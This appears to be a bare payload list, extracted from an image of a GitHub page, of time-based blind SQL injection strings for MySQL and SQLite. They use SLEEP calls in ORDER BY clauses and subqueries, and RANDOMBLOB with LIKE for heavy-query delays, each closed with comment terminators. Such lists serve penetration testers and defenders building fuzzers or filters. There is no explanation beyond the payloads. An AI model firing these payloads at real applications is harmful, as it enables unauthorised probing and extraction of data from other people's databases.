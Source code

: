 ```
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
AND (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
OR (SELECT 1337 FROM (SELECT(SLEEP(5)))YYYY)-- 1337
RANDOMBLOB(500000000/2)
AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 1337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```
